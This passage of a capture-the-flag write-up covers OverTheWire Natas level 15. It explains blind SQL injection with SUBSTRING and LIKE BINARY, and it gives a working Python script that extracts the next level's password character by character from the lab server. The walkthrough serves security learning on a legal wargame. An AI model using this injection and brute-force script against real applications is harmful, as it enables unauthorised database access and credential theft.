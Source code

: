 
```
SELECT * from users where username="natas16" AND our_exploit
```

To pick this additional clause, we look at the [SQL wildcards and keywords]

We can use the SQL function [SUBSTRING] and the symbol **%** to compare strings. For example, the following checks whether there is an **a** in the third position of the variable password:



[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html

```
AND SUBSTRING(password,3,1) = BINARY "a"
```

If SUBSTRING returns false, the entire query becomes false because of the **AND**, and we see the message:

> This user doesn’t exist.

If it returns true, we see

> This user exists.

Beautiful.

#### Crafting the attack:

We use Python's [request] library to craft our attack:

[request]: http://docs.python-requests.org/en/latest/user/quickstart/

```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2, KEYWORD):
 password = ''
 for i in range(1, LENGTH+1):
 for j in range (len(CHARS)):
 r = requests.get( ( SQL_URL1 + str(i) + SQL_URL2 + CHARS[j] ), auth=AUTH)
 print r.url
 if KEYWORD in r.text:
 password += CHARS[j]
 print("Password so far: " + password)
 break
 return password

if __name__ == '__main__':
 # authorization: login and password
 AUTH = ('natas15', '*******************************')

 # BASE64 password and 32 bytes
 CHARS = string.ascii_letters + string.digits
 LENGTH = 32

 # crafted url option 1
 SQL_URL1 = 'http://natas15.natas.labs.overthewire.org?username=natas16" AND SUBSTRING(password,'
 SQL_URL2 = ',1) LIKE BINARY "'
 KEYWORD = 'exists'

 print(brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2, KEYWORD))
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits